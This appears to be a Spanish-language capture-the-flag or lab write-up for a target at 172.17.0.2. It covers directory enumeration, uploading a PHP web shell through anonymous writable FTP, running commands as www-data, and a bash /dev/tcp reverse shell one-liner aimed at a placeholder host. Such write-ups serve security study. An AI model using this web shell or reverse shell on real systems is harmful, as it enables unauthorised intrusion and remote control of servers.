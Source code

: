 **Hallazgos Relevantes:**
Tenemos una via potencial de cargar archivos en esta ruta. a la cual tenemos acceso desde **FTP** y tenemos capaciada de escritura.
- `[ /upload/ ]`: [ Potentially interesting directory w/ ]

- **Hallazgos**:
```bash
/images/              (Status: 200) [Size: 5993]
/icons/               (Status: 403) [Size: 275]
/upload/              (Status: 200) [Size: 739]
/css/                 (Status: 200) [Size: 1744]
/js/                  (Status: 200) [Size: 1149]
```

### Script Malicioso
`shell.php` Crearemos un script que nos permita realizar una llamda a nivel de sistema para ejecutar un comando, El cual cargaremos desde el servicio **FTP**.
```php
<?php
  system($_GET["cmd"]);
?>
```
Sabiendo que tenemos capacidad de escritura, Nos conectamos al servicio y cargamos el archivo:
```bash
ftp 172.17.0.2 ( Anonymous )
```

`/upload` Estando en este directorio cargamos el recurso
```bash
put shell.php
```
---
## Explotación de Vulnerabilidades
### Vector de Ataque
Ahora tenemos ejecucion remota de comandos en el **target**.
### Ejecución del Ataque
```bash
# Comandos para explotación
172.17.0.2/upload/shell.php?cmd=whoami

# Output
www-data
```
### Intrusion
Ganando acceso al **target**
```bash
# Reverse shell o acceso inicial
172.17.0.2/upload/shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/IP_TARGET/PORT <%261'
```
---
